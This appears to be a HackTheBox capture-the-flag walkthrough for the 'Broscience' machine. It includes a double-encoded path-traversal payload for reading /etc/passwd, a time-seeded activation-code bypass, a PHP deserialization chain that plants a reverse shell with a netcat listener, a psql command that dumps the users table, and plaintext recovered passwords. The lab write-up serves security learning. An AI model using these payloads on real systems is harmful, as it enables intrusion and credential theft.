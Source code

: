 
# Broscience machine HTB

## `hints`

### `foothold`
- basic enumeration - check **all files**, check **params**, check two times, that is **double** ;) 
- grab em all
- sweep for common vulns on features 
### `user`
- `db`?
### `root`
- (0) process


# `walkthrough`

## `path` file inclusion filter bypass

- after performing dirsearch on the machine, able to find `/includes/` with some interesting files

![](assets/2023-01-21-22-48-17.png)

- image fetching: `https://broscience.htb/includes/img.php?path=../../../../../etc/passwd`
  - got back **Error:** attack detected
  - single encoding failed, double encoding worked, got back 188B of passwd file
<br>


![](assets/2023-01-21-22-39-05.png)


## `start fetching files present on urls`

got all files using `fetch.py`, i like colors
------------------------------
```
/includes
  |-db_connect.php
  |-header.php
  |-img.php
  |-navbar.php
  |-utils.php
index.php
register.php
login.php
logout.php
exercise.php
user.php
```

![](assets/2023-01-21-22-50-11.png)

## tried to register

- tried to register got no email back
- checking the code we found

`/includes/utils.php`
```php

function generate_activation_code() {
    $chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890";
    srand(time());
    $activation_code = "";
    for ($i = 0; $i < 32; $i++) {
        $activation_code = $activation_code . $chars[rand(0, strlen($chars) - 1)];
    }
    return $activation_code;
}
```

`/register.php`
```php
$activation_code = generate_activation_code();

...

$res = pg_execute($db_conn, "create_user_query", array($_POST['username'], md5($db_salt . $_POST['password']), $_POST['email'], $activation_code));

// TODO: Send the activation link to email
$activation_link = "https://broscience.htb/activate.php?code={$activation_code}";

$alert = "Account created. Please check your email for the activation link.";
```

## tried with a couple of timestamps manually but couldn't hit the activation code by feeding that time as seed `srand()`

`activation.py`  automated that process

- after many tries it finally got validated

![](/assets/2023-01-21-23-41-36.png)  

## checking features

- `get_theme()` unserializes `user-prefs` cookie. 
- `UserPrefs` class is not too interesting. Nothing useful
- `Avatar` and `AvatarInterface` has more to offer

```php
class Avatar {
    public $imgPath;

    public function __construct($imgPath) {
        $this->imgPath = $imgPath;
    }

    public function save($tmp) {
        $f = fopen($this->imgPath, "w");
        fwrite($f, file_get_contents($tmp));
        fclose($f);
    }
}

class AvatarInterface {
    public $tmp;
    public $imgPath; 

    public function __wakeup() {
        $a = new Avatar($this->imgPath);
        $a->save($this->tmp);
    }
}

```

- `get_theme()`  gets called everywhere. e.g. `user.php`
- `file_get_contents` probably is able to read from endpoint
- built a server -->  `upload_server.py`

## `upload_server.py`

```sh
$ python3 upload_server.py &
$ python3 unsafe_unserialize.py /var/www/html/reverse_shell.php revshell
```

- check if file got uploaded 

- open netcat
```sh
$ nc -lvnp 4444

```
we are in

## `user`




## once reversed 
<br>

- psql passwords, dump to csv
  - psql -h localhost -p 5432 -U dbuser -d broscience -c "\copy (SELECT * FROM users) TO '/var/www/html/users.csv' WITH CSV HEADER"
  - RangeOfMotion%777
  - iluvhorsesandgym